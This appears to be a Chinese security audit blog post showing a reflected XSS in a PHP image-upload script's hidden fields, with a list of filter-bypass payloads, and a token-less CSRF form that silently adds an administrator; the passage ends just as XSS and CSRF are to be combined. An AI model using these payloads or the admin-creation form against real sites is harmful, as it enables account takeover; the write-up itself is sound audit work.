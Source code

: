 ![](https://www.cnpanda.net/usr/uploads/2017/12/1897634037.png)

审计的时候发现了一处 XSS：  
![](https://www.cnpanda.net/usr/uploads/2017/12/3002881709.png)

```
<input <?php echo @$\_GET\['noshuiyin'\]?>" />
<input <?php echo @$\_GET\['imgid'\]?>" />


```

隐藏字段 noshuiyin 和 imgid，直接提交相应的参数就可以执行 XSS，只不过这里遇到的小问题是，这套源码把单引号双引号给转义了：  
![](https://www.cnpanda.net/usr/uploads/2017/12/345717615.png)  
这种过滤没什么用，绕过的方法太多，这里提供几个 payload：

> [http://localhost/uploadimg\_form.php?noshuiyin](http://localhost/uploadimg_form.php?noshuiyin)\="/><img src=0  
> onerror=alert(1)>  
> [http://localhost/uploadimg\_form.php?noshuiyin](http://localhost/uploadimg_form.php?noshuiyin)\="/><script>alert(1);</script>  
> [http://localhost/uploadimg\_form.php?noshuiyin](http://localhost/uploadimg_form.php?noshuiyin)\="/><script>alert(/xss/)</script>  
> [http://localhost/uploadimg\_form.php?noshuiyin](http://localhost/uploadimg_form.php?noshuiyin)\="/><input  
> onfocus=alert(1) autofocus>  
> [http://localhost/uploadimg\_form.php?noshuiyin](http://localhost/uploadimg_form.php?noshuiyin)\="/><iframe/onload=alert(/xss/)>  
> [http://localhost/uploadimg\_form.php?noshuiyin](http://localhost/uploadimg_form.php?noshuiyin)\="/><p  
> onmouseover=alert(/xss/)>xss xss</p>

反射型的 XSS 一般危险性是低，但一旦它和 SCRF 结合，就会产生美妙的效果：  
先到后台试一试添加管理员，尝试抓包：  
![](https://www.cnpanda.net/usr/uploads/2017/12/2225493960.png)  
果然是没有 Token 的，那么就简单了，直接构造 payload：

```
你好！再见！

<form method="POST" action="http://127.0.0.1/admin/adminadd.php?action=add" target="hidden\_frame">
<input type="hidden"  />
<input type="hidden"  />
<input type="hidden"  />
</form>
<iframe style="DISPLAY: none" id=hidden\_frame name=hidden\_frame></iframe>
<script>document.forms\[0\].submit();</script>


```

效果如下：  
![](https://www.cnpanda.net/usr/uploads/2017/12/3466541131.png)  
不会跳转到添加管理员成功后界面，但实际上管理员已经添加上了：  
![](https://www.cnpanda.net/usr/uploads/2017/12/1141358958.png)  
可以说神不知鬼不觉的创建了一个管理员。当然，需要有前提的，这个前提是管理员已经登录的情况下才不会跳转，如果没有登录依旧会跳转的：  
![](https://www.cnpanda.net/usr/uploads/2017/12/2882988211.png)  
所以到这里，我们将 XSS 和 CSRF 相结合，效果就出来了，效果如下：  
Payload：
